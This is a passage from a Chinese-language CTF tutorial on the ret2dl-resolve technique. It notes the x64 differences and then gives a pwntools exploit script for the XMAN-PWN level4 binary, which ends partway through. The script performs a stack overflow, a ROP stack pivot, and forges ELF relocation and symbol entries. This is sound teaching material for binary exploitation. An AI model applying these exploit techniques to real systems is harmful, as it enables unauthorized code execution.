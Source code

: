 思想一致, 区别就是:

- Elf64_Rela结构体的大小为0x18, 也就是relplt的一个条目是0x18字节
- 函数参数也变成寄存器传递
- 需要将 link_map + 0x1c8 地址处置 0



现成工具[roputils](https://github.com/inaz2/roputils)



## 实例



_x86 32位环境 :_

以XMAN-PWN 的level4为例, 写的脚本

```python
#coding:utf-8
from pwn import *

context.log_level = 'debug'
p = process('./level4')

offset = 0x8c
stack_size = 0x400
vulfun = 0x0804844b
bss_addr = 0x804a024
base_stage = bss_addr + stack_size

pppr = 0x8048509
p_ebp_r = 0x804850b
leave_r = 0x80483b8

elf = ELF('./level4')
write_plt = elf.plt['write']
read_plt = elf.plt['read']
write_got = elf.got['write']

def main():
    payload1 = 'A' * offset
    payload1 += p32(read_plt)
    payload1 += p32(pppr) + p32(0) + p32(base_stage) + p32(100)
    payload1 += p32(p_ebp_r) + p32(base_stage)
    payload1 += p32(leave_r)
    p.sendline(payload1)

    plt_0 = 0x8048300
    relplt_0 = 0x80482b0
    rel_offset = (base_stage + 0x30-0x8) - relplt_0
    dynsym_0 = 0x80481cc
    dynstr_0 = 0x804822c
    fake_dynsym_addr = base_stage + 0x30
    align = 0x10 - ((fake_dynsym_addr - dynsym_0) % 0x10)   #
    fake_dynsym_addr = fake_dynsym_addr +align              #
    r_index = (fake_dynsym_addr - dynsym_0) / 0x10          # ensure r_index is integer
    # print hex(fake_sym)
    r_info = (r_index << 8) | 0x7
    faked_relplt = p32(write_got) + p32(r_info)
    st_name = (fake_dynsym_addr + 16) - dynstr_0
    faked_dynsym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

    payload2 = 'B' * 4
    payload2 += p32(plt_0) +p32(rel_offset)
    payload2 += 'C'*4 + p32(base_stage+80)
```